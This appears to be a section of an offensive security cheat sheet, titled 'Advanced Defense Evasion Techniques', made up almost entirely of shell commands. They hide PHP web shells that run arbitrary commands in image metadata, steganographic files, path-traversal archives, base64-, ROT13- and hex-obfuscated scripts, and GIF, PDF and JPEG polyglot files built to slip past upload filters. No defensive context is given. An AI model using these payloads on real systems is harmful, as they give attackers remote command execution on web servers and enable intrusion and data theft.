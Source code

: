 
## 🛡️ Advanced Defense Evasion Techniques

### 1. Steganographic Hiding
```bash
# Hide PHP code within image metadata
exiftool -Comment='<?php system($_GET["cmd"]); ?>' -overwrite_original image.jpg

# Steghide embedding
steghide embed -cf cover.jpg -ef payload.php -sf stego.jpg

# Manual EXIF injection
echo '<?php system($_GET["cmd"]); ?>' | base64 | xargs -I {} exiftool -UserComment={} image.jpg
```

### 2. Archive-Based Bypasses
```bash
# ZIP archive with path traversal
zip -r payload.zip ../../../var/www/html/shell.php

# RAR archive with webshell
rar a payload.rar shell.php

# TAR archive bypass
tar -czf payload.tar.gz shell.php
```

### 3. Encoding and Obfuscation
```bash
# Base64 encoded payload
echo '<?php eval(base64_decode("c3lzdGVtKCRfR0VUWydjbWQnXSk7")); ?>' > encoded.php

# ROT13 obfuscation
echo '<?php eval(str_rot13("flfgrz(\$_TRG[\"pzq\"]);")); ?>' > obfuscated.php

# Hex encoding
echo '<?php eval(hex2bin("73797374656d28245f4745545b27636d64275d293b")); ?>' > hex.php
```

### 4. Polyglot File Techniques
```bash
# GIF + PHP polyglot
printf 'GIF89a\x0a<?php system($_GET["cmd"]); ?>' > polyglot.gif

# PDF + PHP polyglot  
printf '%%PDF-1.4\x0a<?php system($_GET["cmd"]); ?>' > polyglot.pdf

# Multi-format polyglot
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01GIF89a<?php system($_GET["cmd"]); ?>' > multi.jpg
```

---